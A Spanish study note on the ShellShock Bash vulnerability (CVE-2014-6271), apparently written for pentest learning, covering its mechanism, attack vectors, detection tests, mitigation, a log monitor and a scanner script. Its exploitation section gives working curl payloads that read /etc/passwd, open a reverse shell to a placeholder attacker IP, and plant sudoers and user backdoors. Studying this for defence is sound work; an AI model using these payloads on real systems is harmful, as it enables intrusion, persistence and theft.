




# 💥 Ataque ShellShock (CVE-2014-6271)

> [!warning] Vulnerabilidad crítica
> **ShellShock** es una vulnerabilidad de seguridad crítica que afecta a GNU Bash, permitiendo la ejecución remota de código arbitrario a través de variables de entorno malformadas. Fue descubierta en septiembre de 2014 y afecta a millones de sistemas Unix/Linux.

---

## 📋 Tabla de Contenidos
- [¿Qué es ShellShock?](#qué-es-shellshock)
- [Mecanismo del Ataque](#mecanismo-del-ataque)
- [Vectores de Explotación](#vectores-de-explotación)
- [Detección y Verificación](#detección-y-verificación)
- [Explotación Práctica](#explotación-práctica)
- [Impacto y Riesgos](#impacto-y-riesgos)
- [Medidas de Mitigación](#medidas-de-mitigación)
- [Herramientas y Scripts](#herramientas-y-scripts)

---

## 🐚 ¿Qué es ShellShock?

ShellShock es una vulnerabilidad en **GNU Bash** que permite a atacantes ejecutar comandos arbitrarios mediante la manipulación de variables de entorno. La vulnerabilidad reside en la forma en que Bash procesa las definiciones de funciones almacenadas en variables de entorno.

### Características principales:

- **CVE**: CVE-2014-6271 (y variantes relacionadas)
- **Severidad**: Crítica (CVSS 10.0)
- **Afectados**: Sistemas Unix/Linux con Bash vulnerable
- **Descubierta**: Septiembre de 2014
- **Versiones afectadas**: Bash anteriores a la versión 4.3

> [!info] Indicador común
> Como menciona tu nota: *"Normalmente, si encuentro un `/cgi-bin/` puede ser factible testear un ShellShock y buscar archivos con extensiones `.pl`, `.sh`, `.cgi`"*



---

## ⚙️ Mecanismo del Ataque

### Funcionamiento técnico:

1. **Definición de función maliciosa**: El atacante envía una variable de entorno que contiene una definición de función seguida de comandos adicionales
2. **Procesamiento por Bash**: Bash procesa la variable e interpreta tanto la función como los comandos adicionales
3. **Ejecución no autorizada**: Los comandos adicionales se ejecutan inmediatamente

### Estructura del payload:

```bash
# Formato del payload malicioso
() { :; }; comando_malicioso

# Explicación:
# () { :; }     -> Definición de función vacía válida
# ;             -> Separador de comandos
# comando_malicioso -> Comando que se ejecutará
```

> [!example] Ejemplo básico
> ```bash
> # Variable de entorno maliciosa
> export VAR='() { :; }; echo "Sistema comprometido" > /tmp/shellshock_test'
> 
> # Cuando Bash procesa esta variable, ejecuta el comando echo
> bash -c "echo \$VAR"
> ```

---

## 🎯 Vectores de Explotación

### 1. Scripts CGI (Más común)

Los scripts CGI son el vector más común debido a que las cabeceras HTTP se convierten en variables de entorno.



### 2. Servicios SSH

```bash
# Através de ForceCommand en SSH
ssh user@target '() { :; }; comando_malicioso'
```

### 3. Servicios DHCP

```bash
# A través de opciones DHCP maliciosas
dhcp-option-force=114,'() { :; }; comando_malicioso'
```

### 4. Otros servicios que usan Bash

- **Qmail**: Procesamiento de correos
- **Servicios de red**: Que ejecutan scripts Bash
- **Aplicaciones web**: Que llaman a Bash indirectamente

---

## 🔍 Detección y Verificación

### Test básico de vulnerabilidad:

```bash
# Test simple para verificar si Bash es vulnerable
env 'x=() { :;}; echo vulnerable' bash -c "echo test"

# Si el sistema es vulnerable, verás:
# vulnerable
# test

# Si no es vulnerable, solo verás:
# test
```

### Test más específico:

```bash
# Test que crea un archivo temporal
env 'x=() { :;}; echo vulnerable > /tmp/shellshock_test' bash -c "echo test"

# Verificar si el archivo fue creado
if [ -f /tmp/shellshock_test ]; then
    echo "Sistema VULNERABLE a ShellShock"
    rm /tmp/shellshock_test
else
    echo "Sistema NO vulnerable"
fi
```

### Test para servicios web:

```bash
# Usar curl para testear CGI
curl -H "User-Agent: () { :; }; echo; echo; echo vulnerable" \
     http://target.com/cgi-bin/script.sh

# Con cabecera personalizada
curl -H "Custom: () { :; }; /bin/cat /etc/passwd" \
     http://target.com/cgi-bin/vulnerable.cgi
```

---

## 💻 Explotación Práctica

### Ejemplo 1: Explotación básica via CGI

```bash
# Obtener información del sistema
curl -A "() { :; }; echo; echo; /bin/uname -a" \
     http://target.com/cgi-bin/script.sh

# Listar archivos del directorio
curl -A "() { :; }; echo; echo; /bin/ls -la" \
     http://target.com/cgi-bin/script.sh

# Leer archivos sensibles
curl -A "() { :; }; echo; echo; /bin/cat /etc/passwd" \
     http://target.com/cgi-bin/script.sh
```

### Ejemplo 2: Reverse Shell

```bash
# Establecer reverse shell usando netcat
curl -A "() { :; }; echo; echo; /bin/bash -i >& /dev/tcp/ATTACKING_IP/4444 0>&1" \
     http://target.com/cgi-bin/vulnerable.cgi

# En el atacante (listener)
nc -lvp 4444
```

### Ejemplo 3: Persistencia

```bash
# Crear un backdoor
curl -A "() { :; }; echo; echo; echo 'www-data ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers" \
     http://target.com/cgi-bin/script.sh

# Crear usuario backdoor
curl -A "() { :; }; echo; echo; useradd -m -p \$(openssl passwd -1 password123) backdoor" \
     http://target.com/cgi-bin/script.sh
```

---

## ⚠️ Impacto y Riesgos

### Tabla de impactos por contexto:

| Contexto | Privilegios | Impacto Potencial |
|----------|-------------|-------------------|
| **CGI Scripts** | www-data/apache | Lectura de archivos web, defacement |
| **CGI como root** | root | Compromiso total del sistema |
| **SSH Services** | usuario SSH | Acceso a la cuenta comprometida |
| **System Services** | service user | Escalada lateral, persistencia |

### Riesgos críticos:

> [!danger] Impactos críticos
> - **Ejecución remota de código**: Sin autenticación previa
> - **Escalada de privilegios**: Si el servicio corre como root
> - **Compromiso de datos**: Acceso a archivos confidenciales
> - **Persistencia**: Instalación de backdoors
> - **Movimiento lateral**: Acceso a otros sistemas en la red



---

## 🛡️ Medidas de Mitigación

### 1. Actualización inmediata

```bash
# Verificar versión actual de Bash
bash --version

# Actualizar en sistemas Debian/Ubuntu
sudo apt-get update
sudo apt-get install bash

# Actualizar en sistemas Red Hat/CentOS
sudo yum update bash

# Verificar que la vulnerabilidad fue parcheada
env 'x=() { :;}; echo vulnerable' bash -c "echo test"
```

### 2. Configuraciones de seguridad

```bash
# Deshabilitar CGI si no es necesario
# En Apache
sudo a2dismod cgi
sudo systemctl restart apache2

# En Nginx, remover configuraciones CGI
# Comentar o eliminar bloques location ~* \.cgi$
```

### 3. Implementar WAF (Web Application Firewall)

```bash
# Regla ModSecurity para detectar ShellShock
SecRule REQUEST_HEADERS "@detectShellShock" \
    "id:1001,\
    phase:1,\
    block,\
    msg:'ShellShock Attack Detected',\
    logdata:'Matched Data: %{MATCHED_VAR} found within %{MATCHED_VAR_NAME}'"
```

### 4. Monitoreo y detección

```bash
# Script de monitoreo para intentos de ShellShock
#!/bin/bash
# shellshock_monitor.sh

LOG_FILE="/var/log/apache2/access.log"
ALERT_FILE="/var/log/shellshock_alerts.log"

tail -f "$LOG_FILE" | while read line; do
    if echo "$line" | grep -q "() { :; }"; then
        echo "$(date): Posible ataque ShellShock detectado: $line" >> "$ALERT_FILE"
        # Enviar alerta (correo, SIEM, etc.)
        echo "ALERTA: Intento de ShellShock desde $(echo $line | awk '{print $1}')"
    fi
done
```

---

## 🛠️ Herramientas y Scripts

### Script de verificación automatizada:

```bash
#!/bin/bash
# shellshock_scanner.sh

echo "=== ShellShock Vulnerability Scanner ==="
echo

# Test local
echo "[+] Testing local Bash..."
result=$(env 'x=() { :;}; echo vulnerable' bash -c "echo test" 2>/dev/null)
if echo "$result" | grep -q "vulnerable"; then
    echo "[-] Local Bash is VULNERABLE"
else
    echo "[+] Local Bash appears patched"
fi

echo

# Test de servicios web
if [ "$1" ]; then
    echo "[+] Testing web service: $1"
    
    # Test con diferentes cabeceras
    headers=("User-Agent" "Referer" "Cookie" "X-Forwarded-For")
    
    for header in "${headers[@]}"; do
        echo "  Testing with $header header..."
        response=$(curl -s -H "$header: () { :; }; echo; echo ShellShocked" "$1" 2>/dev/null)
        if echo "$response" | grep -q "ShellShocked"; then
            echo "  [-] VULNERABLE via $header header!"
        fi
    done
else
    echo "Usage: $0 <target_url>"
    echo "Example: $0 http://example.com/cgi-bin/test.cgi"
fi
```

### Herramientas especializadas:

| Herramienta | Descripción | Uso |
|-------------|-------------|-----|
| **Nikto** | Escáner web con detección ShellShock | `nikto -h http://target.com` |
| **Nmap** | Scripts NSE para ShellShock | `nmap --script http-shellshock target` |
| **Metasploit** | Módulos de explotación | `use exploit/multi/http/apache_mod_cgi_bash_env_exec` |
| **Burp Suite** | Plugin de detección | Extensión "ShellShock Scanner" |

---

## 📊 Línea de tiempo de la vulnerabilidad



---

## 🔗 Referencias y recursos adicionales

- [[OWASP]] - Metodologías de testing y prevención
- **CVE-2014-6271**: Entrada oficial del CVE
- **Bash Release Notes**: Información sobre parches
- **Security Advisories**: Avisos de distribuciones Linux

> [!success] Puntos clave para recordar
> - ShellShock afecta a **Bash**, no solo a aplicaciones web
> - Los **scripts CGI** son el vector más común de ataque
> - La **actualización inmediata** es crítica
> - El **monitoreo activo** puede detectar intentos de explotación
> - Las **configuraciones seguras** minimizan la superficie de ataque

---

[[Indice]]